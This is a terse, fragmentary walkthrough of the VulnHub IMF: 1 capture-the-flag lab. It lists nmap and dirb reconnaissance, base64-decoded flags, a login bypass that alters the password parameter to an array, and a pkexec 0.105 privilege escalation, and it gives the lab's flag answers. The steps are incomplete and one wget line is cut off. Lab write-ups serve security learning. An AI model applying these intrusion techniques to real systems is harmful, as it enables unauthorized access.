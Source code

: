
 IMF: 1 Walkthrough

**VulnHub Link:** [IMF: 1](https://www.vulnhub.com/entry/imf-1,162/)
**Difficulty:** Medium
**Release Date:** 30 Oct 2016

## 1.Reconnaissance
```bash
nmap -A -O -T4 -P -sV 192.168.100.171

sudo echo "192.168.100.171    imf.local" > /etc/hosts
```

## 2. Enumaration 
```bash
dirb http://imf.local
```

from contact us page , view page source and observe flag1
flag1{YWxsdGhlZmlsZXM=

from the same page source observe js sections and combine them 
<script src="ZmxhZzJ7YVcxbVlXUnRhVzVwYzNSeVlYUnZjZz09fQ=="</script>

```bash
echo "ZmxhZzJ7YVcxbVlXUnRhVzVwYzNSeVlYUnZjZz09fQ" | base64 -d
```
flag2{aW1mYWRtaW5pc3RyYXRvcg==} found

```bash
echo "aW1mYWRtaW5pc3RyYXRvcg==" | base64 -d                  
imfadministrator
```

imf.local/imfadministrator found

opening burp suite and changing pass to pass[] and flag3 captured

flag3{Y29udGludWVUT2Ntcw==}

```bash
echo "Y29udGludWVUT2Ntcw==" | base64 -d
```
upload

flag4{dXBsb2Fkcjk0Mi5waHA=}

flag5{YWdlbnRzZXJ2aWNlcw==}

pkexec vulnerability found ---> pkexec version 0.105

wget http://

flag6{R2gwc3RQcm90MGMwbHM=}
